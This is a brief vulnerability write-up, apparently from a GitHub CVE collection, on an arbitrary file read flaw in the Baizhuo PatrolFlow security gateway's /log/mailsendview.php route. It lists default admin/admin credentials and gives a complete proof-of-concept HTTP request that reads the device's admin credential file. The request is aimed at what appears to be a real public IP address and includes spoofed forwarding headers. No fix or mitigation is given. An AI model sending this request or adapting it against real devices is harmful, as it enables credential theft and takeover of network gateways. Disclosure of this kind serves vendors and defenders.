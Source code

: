 Baizhuo Network PatrolFlow Multi Service Security Gateway Intelligent Management Platform Has Arbitrary File Reading Vulnerability

version:PatrolFlow-AM-2530Pro

Route: /log/mailsendview.php

```
账号/密码：admin/admin
```
![image](https://github.com/kpz-wm/cve/assets/65756088/c16c212c-9e39-402f-b473-4a0526d4fee0)




POC

Construct the file parameter by using/boot/phpConfiguration/tb_ Admin.txt, read the login account password. With the account password, you can directly log in to the background or read any file in the system.

```
GET /log/mailsendview.php?file=/boot/phpConfig/tb_admin.txt&type=Sina WebMail HTTP/1.1
Host: 124.192.129.106:8443
Cookie: PHPSESSID=4743c37524a43f4ac23abeed72331bd6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 1.1.1.1
X-Originating-Ip: 1.1.1.1
X-Remote-Ip: 1.1.1.1
X-Remote-Addr: 1.1.1.1
Te: trailers
Connection: close


```
![image](https://github.com/kpz-wm/cve/assets/65756088/fda9df5b-4325-4c48-b766-ff69c88b3c40)

